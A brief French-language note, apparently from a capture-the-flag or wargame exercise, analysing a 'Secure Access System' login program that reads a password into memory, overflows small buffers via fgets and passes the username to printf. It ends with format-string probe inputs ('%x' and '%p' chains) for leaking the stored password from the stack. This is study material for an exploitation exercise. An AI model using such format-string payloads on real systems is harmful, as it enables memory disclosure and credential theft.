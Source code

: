 3 buffer set to 0

file = password file.

buffer_6 store the password

username : fgets de 100 dans un buffer de 12
replace \n par \0

password  : fgets de 100 dans buffer de 14
replace le \n par \0

si je donne le mot de passe ca me spawn un shell (on s'en fout)

printf(buffer_12) (celui du username...)

===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: BBBB%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x
--[ Password: CCCC

AAAA%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p